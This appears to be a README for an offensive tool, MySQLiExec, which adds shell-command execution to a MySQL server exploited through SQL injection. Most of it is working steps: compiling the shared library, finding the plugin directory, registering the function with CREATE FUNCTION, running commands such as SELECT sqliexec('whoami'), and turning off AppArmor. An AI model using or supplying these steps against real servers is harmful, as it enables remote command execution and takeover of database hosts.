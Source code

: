 # MySQLiExec
mssql's cmdexec-like for mysql, useful when exploiting sql injection on a mysql server.

Description: Write the compiled library to the plugins directory of mysql & load it to be able to run shell commands just like mssql's cmdexec

Compile Example: gcc -fPIC -Wall -I/usr/include/mysql -shared -o sqliexec.so sqliexec.c // on ubuntu with installed headers

Find Plugin DIR: SHOW VARIABLES LIKE '%plugin%';

Install: CREATE FUNCTION sqliexec RETURNS STRING SONAME 'sqliexec.so';

Run: SELECT sqliexec('whoami');

Notes: make sure AppArmor is turned off for mysql on linux machines

Author: Kasif Dekel

Version: 1.0
